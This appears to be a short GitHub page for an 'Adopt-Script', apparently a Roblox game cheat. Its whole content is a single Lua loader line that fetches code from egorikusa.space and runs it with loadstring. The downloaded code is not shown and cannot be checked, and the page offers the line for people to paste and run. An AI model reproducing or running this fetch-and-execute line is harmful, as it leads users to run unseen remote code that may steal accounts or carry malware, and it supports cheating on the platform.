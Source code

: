 # Adopt-Script


loadstring(game:HttpGet("https://egorikusa.space/6e3ad44fec4783966ff22dda.lua", true))()
